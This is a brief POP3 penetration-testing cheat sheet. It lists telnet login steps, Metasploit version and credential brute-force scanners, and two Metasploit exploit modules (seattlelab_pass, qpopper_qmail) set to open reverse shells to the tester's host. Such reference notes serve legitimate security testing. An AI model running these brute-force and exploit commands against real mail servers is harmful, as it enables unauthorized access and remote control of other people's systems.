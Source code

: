 # POP3

## Enumeration
- requires credentials to interact with and fetch emails.
- could indicate other mail ports are open. Use a local mail client to interact with them.

##### telnet
```bash
telnet [IP] 110
USER [USER]@[IP]
PASS [PASS]
```

### Metasploit

##### pop3_version
```bash
use auxiliary/scanner/pop3/pop3_version
set RHOSTS [IP]
set RPORT 110
run
```

##### pop3_login
```bash
use auxiliary/scanner/pop3/pop3_login
set RHOSTS [IP]
set RPORT 110
set USER_FILE /usr/share/wordlists/usernames.txt
set PASS_FILE /usr/share/wordlists/passwords.txt
run
```


---
---


## Exploitation

### Metasploit

##### seattlelab_pass
```bash
use exploit/windows/pop3/seattlelab_pass
set RHOSTS [IP]
set RPORT 110
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST [YourIP]
run
```

##### qpopper_qmail
```bash
use exploit/linux/pop3/qpopper_qmail
set RHOSTS [IP]
set RPORT 110
set PAYLOAD linux/x86/shell_reverse_tcp
set LHOST [YourIP]
run
```
